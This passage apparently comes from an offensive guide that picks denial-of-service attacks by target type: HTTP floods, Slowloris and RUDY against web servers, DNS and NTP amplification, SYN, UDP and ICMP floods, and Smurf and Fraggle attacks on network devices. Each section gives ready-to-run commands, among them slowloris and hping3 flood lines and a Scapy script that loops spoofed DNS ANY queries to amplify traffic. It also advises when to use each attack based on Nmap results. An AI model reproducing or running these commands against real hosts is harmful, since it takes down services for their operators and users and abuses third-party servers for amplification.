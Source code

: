 - **Best Methods**:
  - **HTTP Flood**: Overwhelms the server with GET/POST requests.
  - **Slowloris**: Ties up connections with partial HTTP requests.
  - **RUDY**: Slow POST requests to exhaust server resources.
- **Why?** Web servers are vulnerable to application-layer (Layer 7) attacks that target connection pools or CPU-intensive tasks.
- **Example Tool**: Slowloris.
  ```bash
  slowloris -s 500 -p 80 <target_IP>
  ```
- **When to Use**: If Nmap shows port 80/443 open with Apache/Nginx.

### b. Target: Network Services (DNS, NTP)

- **Best Methods**:
  - **DNS Amplification**: Spoofed DNS queries for high traffic amplification.
  - **NTP Amplification**: Exploits NTP servers’ large responses.
- **Why?** These services often respond with large packets, amplifying traffic to the target.
- **Example Tool**: Scapy for DNS amplification.
  ```python
  from scapy.all import *
  packet = IP(src="<target_IP>", dst="<dns_server_IP>")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="example.com", qtype="ANY"))
  send(packet, loop=1, verbose=0)
  ```
- **When to Use**: If recon identifies open UDP ports (53 for DNS, 123 for NTP).

### c. Target: General Server (Any Open Ports)

- **Best Methods**:
  - **SYN Flood**: Overloads TCP connection tables.
  - **UDP Flood**: Saturates bandwidth with UDP packets.
  - **ICMP Flood**: Overwhelms with ping requests.
- **Why?** These volumetric or protocol attacks target the network stack, effective against any server with open ports.
- **Example Tool**: `hping3` for SYN flood.
  ```bash
  hping3 -S --flood -p 80 <target_IP>
  ```
- **When to Use**: If Nmap shows multiple open TCP/UDP ports or no specific app vulnerabilities.

### d. Target: Network Device (Router, Firewall)

- **Best Methods**:
  - **Smurf Attack**: Uses ICMP broadcast amplification.
  - **Fraggle Attack**: UDP-based broadcast flood.
- **Why?** Network devices may respond to broadcast traffic, amplifying the attack.
- **Example Tool**: `hping3` for ICMP flood.
  ```bash
  hping3 -1 --flood <target_IP>
  ```
- **When to Use**: If the target is a network device with broadcast enabled (rare in modern systems).
